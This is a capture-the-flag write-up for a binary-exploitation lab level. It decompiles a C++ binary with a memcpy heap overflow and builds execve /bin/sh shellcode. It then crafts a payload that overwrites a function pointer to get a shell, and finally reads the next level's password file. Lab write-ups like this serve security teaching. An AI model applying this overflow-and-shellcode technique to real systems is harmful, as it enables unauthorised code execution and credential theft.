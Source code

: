 get the binary on host
* `scp -P 4242 level9@192.168.56.107:./level9 ./binary/level9`

decompile using ghidras
```c
void main(int param_1,int param_2)
{
	N *this;
	code **this_00;
	
	if (param_1 < 2) {
						/* WARNING: Subroutine does not return */
		_exit(1);
	}
	this = (N *)operator.new(0x6c);
	N::N(this,5);
	this_00 = (code **)operator.new(0x6c);
	N::N((N *)this_00,6);
	N::setAnnotation(this,*(char **)(param_2 + 4));
	(**(code **)*this_00)(this_00,this);
	return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
	undefined4 uVar1;
	
	uVar1 = strlen(param_1);
	memcpy(this + 4,param_1,uVar1);
	return;
}

```

here is a great shell code from adbenoit
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

To generate it create a shellcode.nasm
```s
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```
compile it
* `nasm -f elf shellcode.asm`

Use objdump to get the shellcode bytes:
* `objdump -d -M intel shellcode.o`

Extracting the bytes gives us the shellcode
* `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

What we need to create the payload :
* addr of N    ===> 0x08040a0c (break point at instruction 136, step and x/x $eax)
* a shell code ===> we got one
* adding byte totaling 108 char with the 2 previous element
* addr of N+4 (were our input get memcpy) ===> 0x08040a10

so : addr of N + shellcode + addr of N + 4 (because of the +4 in memcpy)

`./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*79 +'\x0c\xa0\x04\x08'")`
```bash
$ cat /home/user/bonus0/.pass
	f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```